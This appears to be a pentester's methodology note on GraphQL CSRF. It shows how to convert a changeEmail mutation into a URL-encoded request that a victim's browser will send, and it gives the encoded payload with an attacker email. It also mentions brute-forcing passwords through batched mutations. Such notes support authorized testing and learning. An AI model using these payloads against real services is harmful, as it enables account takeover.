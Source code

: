 Attempt to send all login credentials at once using mutations to brute force the password.
# GraphQL CSRF

GraphQL can allow a CSRF attack to take place whereby an attacker creates an exploit that causes a victim's browser to send a malicious query as the victim. 

>[!info]
>POST requests that are JSON are secure as long as the content type is validated.

Alternative methods like GET or a request that uses `x-www-form-urlencoded` can be sent by a browser. Attackers can craft malicious requests to send to the API. 

Try to observe any sensitive functionality (changing email, updating account information, etc...). Attempt to change the request method to `application/x-www-form-urlencoded` either manually or by "Change request method" twice.

As an example, a standard email change request may be:

```json
{
  "query": "\n    mutation changeEmail($input: ChangeEmailInput!) {\n        changeEmail(input: $input) {\n            email\n        }\n    }\n",
  "operationName": "changeEmail",
  "variables": {
    "input": {
      "email": "attacker@test.net"
    }
  }
}
```

Try re-submitting with a new email to ensure a session token can be reused to send many requests. After changing the request method, add it back as non-JSON data:

```json
query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
```

Which decodes to:

```json
query=
    mutation changeEmail($input: ChangeEmailInput!) {
        changeEmail(input: $input) {
            email
        }
    }
&operationName=changeEmail&variables={"input":{"email":"hacker@hacker.com"}}
```

>[!info]
>Make sure not to encode the "=" characters.

If it works successfully, send the CSRF PoC successfully to the victim, making sure to change the email to a different one that tested.




